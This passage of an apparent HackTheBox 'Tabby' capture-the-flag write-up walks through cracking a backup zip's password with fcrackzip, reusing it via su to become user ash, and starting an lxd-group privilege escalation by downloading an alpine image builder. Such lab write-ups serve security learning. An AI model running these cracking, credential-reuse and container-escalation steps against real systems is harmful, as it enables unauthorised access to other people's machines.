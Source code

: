 The zip file is password protected 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/tabby]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip             1 ⨯


PASSWORD FOUND!!!!: pw == admin@it
```

After unzipping the zip file I went through all the files that we got but there was nothing useful

Well the only thing that we got from this ia the password 

Since the file was owned by the user ash this is his password and maybe we use su 

```
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ whoami
whoami
ash
ash@tabby:/var/www/html/files$ cd /home/ash
cd /home/ash
ash@tabby:~$ ls
ls
user.txt
ash@tabby:~$ cat user.txt
cat user.txt
ddf42069e74e55a601ddbefc84a19e51
```

## ROOT.TXT

Using `id` command I found lxd permission which is unusual

```
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

On searching for a bit I found this [exploit](https://www.exploit-db.com/exploits/46978)

After downloading and building the alpine on our machine using the command

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/tabby]
└─$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2021-08-20 09:59:16--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7662 (7.5K) [text/plain]
Saving to: ‘build-alpine’

build-alpine           100%[============================>]   7.48K  --.-KB/s    in 0s      

2021-08-20 09:59:21 (22.9 MB/s) - ‘build-alpine’ saved [7662/7662]

                                                                                            
┌──(kali㉿kali)-[~/Downloads/hackthebox/tabby]
└─$ sudo bash build-alpine 
```